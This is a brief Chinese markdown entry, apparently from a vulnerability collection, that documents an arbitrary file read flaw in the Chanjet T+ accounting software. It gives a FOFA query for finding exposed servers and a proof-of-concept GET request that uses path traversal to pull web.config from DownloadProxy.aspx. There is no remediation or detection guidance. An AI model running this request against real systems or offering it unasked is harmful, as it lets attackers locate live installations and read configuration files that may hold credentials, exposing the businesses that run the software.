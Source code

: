# 畅捷通T+ 任意文件读取漏洞
## 资产搜索
fofa app="畅捷通-TPlus"
![](img/T+.png)
## POC
### 请求验证码
`GET /tplus/SM/DTS/DownloadProxy.aspx?preload=1&Path=../../web.config`  
![](img/T+POC.png)